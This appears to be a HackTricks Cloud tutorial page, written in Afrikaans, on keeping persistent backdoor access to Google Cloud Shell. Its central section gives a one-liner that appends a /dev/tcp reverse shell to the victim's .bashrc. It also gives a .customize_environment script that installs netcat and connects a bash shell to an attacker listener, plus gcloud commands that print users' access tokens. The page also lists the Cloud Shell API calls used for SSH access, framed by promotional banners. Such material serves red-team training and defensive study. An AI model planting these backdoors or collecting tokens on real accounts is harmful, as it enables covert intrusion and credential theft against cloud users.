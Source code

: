 # GCP - Cloud Shell Volharding

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* github-opslag.

</details>

## Cloud Shell

Vir meer inligting, kyk:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Volgehoue Agterdeur

[**Google Cloud Shell**](https://cloud.google.com/shell/) bied jou die moontlikheid om opdraggelyntoegang tot jou wolkbronne direk vanuit jou webblaaier te hê sonder enige verbonde koste.

Jy kan Google se Cloud Shell vanaf die **webkonsol** benader of **`gcloud cloud-shell ssh`** hardloop.

Hierdie konsol het 'n paar interessante vermoëns vir aanvallers:

1. **Enige Google-gebruiker met toegang tot Google Cloud** het toegang tot 'n ten volle geauthentiseerde Cloud Shell-instantie (Diensrekeninge kan, selfs eienaars van die organisasie, dit hê).
2. Genoemde instantie sal **sy tuisgids vir ten minste 120 dae handhaaf** as geen aktiwiteit plaasvind nie.
3. Daar is **geen vermoë vir 'n organisasie om die aktiwiteit** van daardie instantie te monitor nie.

Dit beteken basies dat 'n aanvaller 'n agterdeur in die tuisgids van die gebruiker kan plaas en solank die gebruiker elke 120 dae ten minste na die GC Shell verbind, sal die agterdeur oorleef en die aanvaller sal elke keer 'n skaal kry wanneer dit uitgevoer word deur net te doen:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Daar is 'n ander lêer in die huisvouer genaamd **`.customize_environment`** wat, indien dit bestaan, elke keer **uitgevoer gaan word** wanneer die gebruiker toegang kry tot die **wolkmussel** (soos in die vorige tegniek). Voeg net die vorige agterdeur in of een soos die volgende om volharding te behou solank as wat die gebruiker die wolkmussel "gereeld" gebruik:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Dit is belangrik om op te let dat die **eerste keer wanneer 'n aksie wat verifikasie vereis, uitgevoer word**, 'n pop-up verifikasie-venster in die gebruiker se webblaaier verskyn. Hierdie venster moet aanvaar word voordat die bevel uitgevoer kan word. As 'n onverwagte pop-up verskyn, kan dit argwaan wek en moontlik die volhardingsmetode wat gebruik word, in gevaar bring.
{% endhint %}

Dit is die pop-up van die uitvoering van `gcloud projects list` vanaf die wolkshell (as aanvaller) wat in die webblaaier se gebruikersessie gesien word:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Maar, as die gebruiker aktief die wolkshell gebruik het, sal die pop-up nie verskyn nie en kan jy **gebruikers se tokens versamel met**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Hoe die SSH-verbinding tot stand gebring word

Basies word hierdie 3 API-oproepe gebruik:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (sal jou jou publieke sleutel wat jy plaaslik geskep het, laat byvoeg)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (sal jou die instansie laat begin)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (sal jou die IP van die Google Cloud Shell vertel)

Maar jy kan verdere inligting vind in [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Verwysings

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* github-repos.

</details>
